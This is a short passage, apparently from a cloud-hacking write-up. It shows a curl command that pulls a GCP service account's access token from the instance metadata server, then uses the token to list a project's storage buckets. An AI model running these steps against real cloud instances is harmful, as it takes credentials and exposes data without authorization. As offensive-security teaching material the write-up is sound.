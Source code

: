 ```
curl "http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token" --header "Metadata-Flavor: Google"
```
<p align="center"> <img src="/assets/images/Hack8.png"> </p>

Having the previous information I can finally start querying the Google Cloud APIs to enumerate different resources within the project. As an illustration, let us list all the buckets: 

```
curl -X GET -H "Authorization: Bearer $TOKEN"  "https://storage.googleapis.com/storage/v1/b?project=gcp-container-tests"
```

